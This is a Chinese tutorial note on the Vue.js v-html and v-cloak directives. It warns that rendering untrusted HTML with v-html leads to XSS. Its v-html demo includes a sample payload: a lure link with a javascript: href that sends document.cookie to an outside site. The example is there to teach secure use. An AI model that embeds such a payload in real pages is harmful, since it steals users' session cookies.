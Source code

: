 ![image-20230715101753712](https://cdn.jsdelivr.net/gh/Voun8/ty_imgs//image-20230715102217100.png)

### v-html指令

作用：向指定节点渲染包含html结构的内容

与插值语法的区别

​	v-html会替换掉节点中所有的内容，{{xxx}}则不会

​	v-html可以识别html结构

严重注意v-html有安全性问题

​	在网站上动态渲染任意html都是非常危险的，容易导致xss攻击

​	一定要在可信的内容上使用v-html，永远不要用在用户提交的内容上！！！

~~~html
<body>
    <div id="root">
        <div>你好，{{ name }}</div>
        <div v-html="str"></div>
        <div v-html="str2"></div>
    </div>
    <script>
        Vue.config.productionTip = false
        new Vue({
            el: '#root',
            data: {
                name: 'lyy',
                str: '<h3>你好啊</h3>',
                str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>'
            },
        })
    </script>
~~~

![image-20230715102217100](https://cdn.jsdelivr.net/gh/Voun8/ty_imgs//image-20230715102919846.png)

### v-cloak指令

v-cloak指令(没有值)

​	本质是一个特殊属性，vue实例创建完毕并接管容器后，会删除v-cloak属性

​	使用css配合v-cloak可以解决网速慢页面出现{{xxx}}的问题

~~~html
<body>
    <div id="root">
        <h2 v-cloak>{{ name }}</h2>
    </div>
    <script src="http://localhost:8080/resource/5s/vue.js"></script>
    <script>
        Vue.config.productionTip = false
        console.log(1)
        new Vue({
            el: '#root',
            data: {
                name: 'lyy',
            },
        })
    </script>
~~~
